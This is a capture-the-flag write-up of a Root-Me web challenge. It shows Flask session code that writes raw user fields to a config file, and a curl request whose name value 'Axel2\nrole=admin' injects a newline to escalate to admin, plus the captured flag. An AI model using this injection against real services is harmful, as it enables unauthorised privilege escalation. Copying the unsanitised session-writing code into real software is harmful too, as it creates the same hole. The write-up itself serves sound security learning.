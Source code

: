 # New New Always New (day15)
<p align="justify">This challenge was a Web challenge in which we had to get admin access to read the flag. The source code(python server) was available to downlaod on the challenge site and is attached to  this repo.</p>

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="justify">Looking at the source code it appeared that the flag was exposed in the admin section (available under app.py in this repo). Besides, the session and access were managed thanks to uuid generated when user register on the server. Below the function that handles the user registration, generating a config file based on a uuid and writing user information into the config file : </p>

````python
def create_session(email, name, role):
    session_id = str(uuid.uuid4())
    session_file = os.path.join(SESSION_DIR, f'session_{session_id}.conf')

    with open(session_file, 'w') as f:
        f.write(f'email={email}\n')
        f.write(f'role={role}\n')
        f.write(f'name={name}\n')

    return session_id
````
<p align="justify">Below is the route used through POST request to register a user on the server. It appeared that the input provided wasn't cleared or processed before being sent through server , meaning it could possibly be exploited for injection. </p>

````python
@app.route('/register', methods=['POST'])
def register():
    email = request.json.get('email')
    name = request.json.get('name')
    password = request.json.get('password')

    password_hash = generate_password_hash(password)

    user = User(email=email, name=name, role='user', password_hash=password_hash)
    db.session.add(user)
    db.session.commit()

    return jsonify(success="User registered successfully"), 201
````
<p align="justify">Hence what I've tried was to add a line with 'role=admin' in my file by giving the username Axel2\nrole=admin. Considering that the content of the config file wasn't checked (number of line for instance), I was expecting server to use the last line to set my role. As a result, after the injection the overwritten config file was expected to be something like : </p>

````text
emain=xxxxx
role=user
name=axel
role=admin
````

````bash
curl -k -X POST https://day15.challenges.xmas.root-me.org/register -H "Content-Type: application/json" -d '{"email": "user@example.com","name": "Axel2\nrole=admin","password": "azerty"}'
````

<p align="justify"> After I registered my user , I logged In and retreived my access token generated. To get sure that my role was 'admin' I used the 'Dashboard', designed to display informations about user session. The exploited did worked well because I was granted admin role : </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify">Finaly, I accessed the admin section and got the flag : </p>

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

Flag : _RM{I_Thought_Th1s_VUlnerability_W4s_N0t_Imp0rtant}_, thanks _Elweth_ for this challenge !

 
